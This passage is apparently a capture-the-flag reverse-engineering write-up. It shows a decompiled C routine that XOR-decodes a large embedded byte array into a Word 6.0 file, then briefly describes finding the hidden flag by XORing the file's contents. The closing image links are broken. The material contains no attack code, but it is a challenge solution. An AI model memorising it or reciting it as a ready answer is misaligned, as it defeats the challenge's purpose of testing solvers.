  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148,  96, 121, 
   39, 104,  28, 115,  50,  97,  50, 107,   4, 121, 
    6, 104,  16, 115,  22,  97,  49, 107,   3, 121, 
   27, 104,  27, 115,  50,  97,  62, 107,  17, 121, 
   29, 104,   6, 115,  49,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104,  65, 115,  93,  97, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  79,  97,  95, 107,  35, 120, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  117, 104, 105, 115, 161, 158, 160, 148, 102, 121, 
  116, 104, 109, 115,  95,  97,  90, 107, 101, 121, 
  114, 104, 105, 115,  88,  97,  95, 107, 109, 121, 
  116, 104,  96, 115,  95,  97,  85, 107, 101, 121, 
  127, 104, 105, 115,  83,  97,  95, 107, 104, 121, 
  116, 104, 103, 115,  95,  97,  80, 107, 101, 121, 
   98, 104, 105, 115,  78,  97,  95, 107, 119, 121, 
  116, 104, 122, 115,  95,  97,  75, 107, 101, 121, 
   97, 104, 105, 115, 161, 158, 160, 148, 114, 121, 
  116, 104, 113, 115,  95,  97,  70, 107, 101, 121, 
  110, 104, 105, 115,  68,  97,  95, 107, 121, 121, 
  116, 104, 116, 115,  95,  97,  65, 107, 101, 121, 
  107, 104, 105, 115, 127,  97,  95, 107,  68, 121, 
  116, 104,  75, 115,  95,  97, 124, 107, 101, 121, 
   80, 104, 105, 115, 122,  97,  95, 107,  67, 121, 
  116, 104,  78, 115,  95,  97, 119, 107, 101, 121, 
   93, 104, 105, 115, 117,  97,  95, 107,  78, 121, 
  116, 104,  69, 115,  95,  97, 114, 107, 101, 121, 
   90, 104, 105, 115, 112,  97,  95, 107,  85, 121, 
  116, 104,  88, 115,  95,  97, 161, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 151, 140,  95,  97,  91, 107, 103, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  94, 107, 101, 121, 
  148, 237, 246, 129, 166,  46,  55, 123, 206, 232, 
  124, 104,  66,  84, 236, 184, 111, 107, 101, 121, 
   98, 105, 105, 115,  85,  97,  95, 107,  98, 121, 
  116, 104, 241, 115,  95,  97,  93, 107, 101, 121, 
  218, 104, 105, 115,  87,  97,  95, 107, 218, 121, 
  116, 104, 104, 115,  95,  97, 148, 107, 101, 121, 
  123, 104, 105, 115, 142,  97,  95, 107, 117, 121, 
  116, 104, 176, 115,  95,  97,  77, 107, 101, 121, 
  149, 104, 105, 115,  81,  97,  95, 107, 153, 121, 
  116, 104,  96, 115,  95,  97,  91, 106, 101, 121, 
  103, 104, 105, 115,  81,  96,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 119, 115,  95,  97,  81, 107, 101, 121, 
   55,  82,  53,  61,  48,  19,  50,  10,   9,  87, 
   16,   7,  29, 115,  65,  97,  95, 107, 108, 121, 
  116, 104,  58,   6,  61,  65,  18,  42,  44,  55, 
  116, 118, 105, 115,  95, 101,  95, 107, 101,   0, 
   29,   6, 105, 113,  95,  97,  95, 143,  97, 122, 
  116, 104, 105, 115,  95,  97,  95, 104, 101, 121, 
  116, 104, 105, 115,  95, 127,  95, 107, 101, 106, 
  116, 104, 105,  62,  54,   2,  45,   4,  22,  22, 
   18,  28,  73,  36,  48,  19,  59,  75,  83,  87, 
   68, 104, 106, 115,  95,  97,  95, 107, 101, 121, 
  106, 104, 105, 115,  93,  97,  95, 107,  83, 121, 
  119, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  75,  59,  78,  48, 
   67,  94,  69,  94,  22,  87,  27,  66,   5,  21, 
   16,  11,  32,  57,  89, 204, 119,  44,  99,  50, 
   53,  36,  35,  37,  74,  46,  23,  34,  46,  48, 
   59,  39, 105,  60,  19, 120,  64, 107, 124, 103, 
   61, 116, 105, 102,  71, 116,  17, 107,  43, 102, 
   56, 112, 105, 107,  66, 125,  64,  34, 123, 100, 
   96,  56,  66,  58, 104,  87,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  94,  97, 161, 148, 102, 115, 
  116, 104, 150, 140, 160, 158,  95,  98, 103, 121, 
  116, 104, 105, 115, 159,  97,  95, 107, 101, 121, 
  116,  46, 117, 115,  95,  97,  18,   2,   6,  11, 
   27,  27,   6,  21,  43,  65,   8,   4,  23,  29, 
   84,  94,  71,  67, 127,  37,  48,   8,  16,  20, 
   17,   6,  29, 115,  85,  97,  95, 107,  40,  42, 
   35,   7,  27,  23,  27,  14,  60, 107, 117, 121, 
  116, 104,  62,  28,  45,   5, 113,  47,  10,  26, 
    1,   5,  12,  29,  43,  79, 105, 107, 145,  64, 
  198,  25, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 181, 214,  55,  97,  26, 171, 108, 125, 
  116, 104,  92, 115,  58,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 104, 101, 121, 
   63, 107, 105, 115,  13, 107,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  20,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116,  96, 105, 115, 211,  97,  95, 107, 101, 113, 
  116, 104, 229, 115,  95,  97, 211,  99, 101, 121, 
  116, 104, 105, 115, 211, 105,  95, 107, 101, 121, 
  116, 104, 229, 123,  95,  97,  95, 107, 101, 121, 
  248,  96, 105, 115,  95,  97,  95, 107, 233, 113, 
  116, 104, 125, 115,  95,  97, 155,  99, 101, 121, 
  116, 104, 105, 115, 233, 105,  95, 107, 107, 121, 
  116, 104, 173, 123,  95,  97,  95, 107, 101, 121, 
  176,  96, 105, 115,  95,  97,  95, 107, 161, 113, 
  116, 104, 105, 115,  95,  97, 155,  99, 101, 121, 
  126, 104, 105, 115, 145, 105,  95, 107, 111, 121, 
  116, 104, 173, 123,  95,  97,  95, 107, 101, 121, 
  236,  97, 105, 115,  28,  97,  95, 107, 189, 113, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  172,  96, 105, 115,  95,  97,  95, 107, 189, 113, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
   37,  97, 105, 115,  95,  97,  95, 107,  52, 112, 
  116, 104, 105, 115,  95,  97,  14,  98, 101, 121, 
  116, 104, 105, 115,  14, 104,  95, 107, 101, 121, 
  116, 104,  56, 122,  95,  97,  95, 107, 101, 121, 
   37,  97, 105, 115,  65,  97,  95, 107, 190, 112, 
  116, 104,  49, 115,  95,  97, 108,  97, 101, 121, 
  107, 104, 105, 115,  48, 104,  95, 107,  76, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 233, 113, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115,  95,  97,  93, 107, 102, 121, 
  117, 104, 104, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104,   6, 122,  95,  97,  95, 107, 101, 121, 
  172,  96, 105, 115,  95,  97,  95, 107, 233, 113, 
  116, 104, 105, 115,  95,  97, 211,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 189, 113, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  172,  96, 105, 115,  95,  97,  95, 107, 233, 113, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115, 211, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  107,  97, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115, 255, 105,  95, 107, 109, 121, 
  116, 104, 193, 123,  95,  97,  81, 107, 101, 121, 
  248,  96, 105, 115,  95,  97,  95, 107, 233, 113, 
  116, 104, 105, 115,  95,  97, 211,  99, 101, 121, 
  116, 104, 105, 115, 211, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  107,  97, 105, 115,  95,  97,  95, 107, 189, 113, 
  116, 104,  46, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
   57,  17,  73,  21,  45,   8,  58,   5,   1,  85, 
   84,  33,  73,   0,  62,   8,  59,  71,  69,  13, 
   28,  13,  27,  22, 127,   8,  44,  75,  23,  28, 
   21,   4,   5,  10, 127,  15,  48,  75,   3,  21, 
   21,  15,  73,  27,  58,  19,  58,  71,  69,  14, 
   28,  17,  73,  23,  48,  15, 205,  31,  69,   0, 
   27,  29,  73,  17,  58,  13,  54,  14,  19,  28, 
   84,   5,  12,  76,  82,  77, 114,  34,  83,  61, 
   93,   8,   5,  23,  60,  40,  21, 109,  72,  81, 
   51,  99,  34,  50,  19,  43,   9, 126,  42,  49, 
   61,  35,  32,  60,  16,  46,  19, 114, 122,  96, 
  106,  33, 117, 102,  71, 116,  17,  37, 122,  53, 
  108, 112, 116, 111,  64,  40,  65, 118, 101, 122, 
  116, 104,  34, 112,  95,  97, 217, 104, 101, 121, 
  178, 107, 105, 115,  95, 159, 161, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  93,  30, 100, 122, 
  116, 107, 105, 115,  20,  98,  95, 107, 155, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 100, 121, 
  116, 105, 103, 115,  80,  97,  87, 107, 100, 121, 
   63, 104, 102, 115,  95,  97,  95, 107,  89, 121, 
  116,  40, 152, 140,  93,  97,  99, 107,  99,  55, 
   27,  26,   4,  18,  51,  97, 126, 107, 101, 121, 
  123, 117, 105, 122, 191,  96, 159, 104, 197, 124, 
  244, 111,   9, 122,  31, 106, 127, 102, 101, 118, 
  148, 120, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 111, 115,   2,  98,  95,  10, 108, 125, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107,  71, 121, 
   53,  40, 155, 140, 254,  97, 125, 107, 115,  61, 
   17,  14,   8,   6,  51,  21, 127,  59,   4,  11, 
   21,  15,  27,  18,  47,   9, 127,  45,  10,  23, 
    0, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  20, 107, 101, 121, 
  119, 104, 150, 140, 160, 158,  92, 107, 154, 134, 
  139, 151, 104, 115,  91,  65, 160, 148, 100, 121, 
  116, 104, 105, 115,  20,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107,  46, 121, 
  116, 104, 105, 112, 159,  64,  56, 105, 101, 122, 
  116, 104, 175, 112,  95,  97,  93, 107, 101, 122, 
  116, 104,  34, 112,  95,  97,  92, 107,  34, 121, 
  119,  17,   0,  29,  84,  34, 101,  55,   3,  72, 
   64,  15,  71,  23,  48,  21,  92,  18,  12,  23, 
   68,  43,  83,  47,   8,  40,  17,  37,  49,  37, 
   36,  26,   6,  21,  54,  13,  58,  24,  57,  56, 
   16,   5,   0,  29,  54,  18,  43,  25,   4,  13, 
   27,  26,  53,  55,  58,  18,  52,  31,  10,   9, 
   40,  14,  88,  71,  56,  79,  59,   4,  17, 134, 
  117, 105, 105,  38, 114,  97,  95, 107, 101, 134, 
  139, 104, 105, 115,  95,  33,  95, 107, 101, 127, 
  116, 104, 105, 245,  92,  97,  95, 123, 108, 121, 
  112,  14,  88,  71,  56,  96,  95, 122, 100, 121, 
  116, 104, 109,  53, 110,  85,  24, 107,  37, 120, 
  244, 105, 105,  76,  95,  97,  95,  84, 101, 121, 
  116,  96, 105, 114,  95,  96,  95,  84, 101, 121, 
  116, 104, 105, 115,  95,  94,  95, 107, 101, 120, 
  113, 104,  60, 242,  60,  89,  95, 105, 121, 121, 
  116, 104, 105, 115,  95,  97,  21, 107, 101, 121, 
   63, 104, 105, 115, 111,  97,  95, 104, 101, 121, 
  117, 104,  89, 115,  21,  98,  95, 107, 101, 121, 
   55, 104, 124, 101, 207,  96,  95, 107,  49,  16, 
   25,  13,  26,  83,  17,   4,  40,  75,  55,  22, 
   25,   9,   7, 115,  83, 119, 207, 106, 103, 121, 
   39,  17,   4,  17,  48,  13,  95,  96,  67, 233, 
  117, 104, 105,  50,  45,   8,  62,   7, 101, 104, 
   65, 248, 104, 115,  95,  34,  48,  30,  23,  16, 
   17,  26,  73,  61,  58,  22,  95,  73, 101, 125, 
  116,  89,  97, 251,  71,  97,  95, 187, 103, 121, 
  116,   0, 104, 115,  95,  97,  95, 207, 233, 238, 
  179, 192, 229, 228, 152,  97,  95, 107, 101, 127, 
  116, 107, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 125, 
  116, 235, 121, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101,  93, 
  119, 104, 105, 115,  95, 126,  95, 107, 101, 113, 
   39,  29,  11,  83,  18,  32,  22,  37, 101, 121, 
  116, 104, 106,  10,  54,  15,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97
};
  size_t size = 0x2E00;
  for ( j = 0; j < (int)size; ++j )
    data[j] ^= key[j % 10];
  v4 = fopen("daidai", "wb+");
  fwrite(data, size, 1u, v4);
  return 0;
}
```

得到的文件是一个 Word 6.0 文件，打开后提示
My friend, I said, there is really no flag here, why don’t you believe me?

找到字符串 ，发现附近比较可疑

-0656405.png)

.png)

对全部内容进行xor，可找到完整flag

